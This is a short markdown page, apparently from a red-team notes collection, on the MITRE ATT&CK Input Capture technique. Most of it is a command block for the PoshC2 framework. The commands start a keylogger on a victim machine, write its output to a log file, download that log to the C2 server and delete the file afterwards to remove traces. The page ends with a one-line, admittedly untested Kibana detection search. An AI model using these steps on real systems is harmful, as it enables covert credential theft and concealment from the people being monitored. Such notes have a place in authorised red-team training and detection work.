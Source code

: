 # [Input Capture](https://attack.mitre.org/techniques/T1056/)

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).

---

## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes 
##Starts the Keylogger(realtime on poshc2 Server)

start-keystrokes-writefile 
##record this file location(.log) this in on victim box

### Keylogger is now running until Stopped ### Typically used if keylogger is being ran over a set time"

Download-file "C:\keylogname.log" 
## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes 
##Stop keylogger for cleanup

posh-delete C:\<same place with new filename> 
##Cleaning up file created
```
---

## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”) --- NOT TESTED IN KIBANA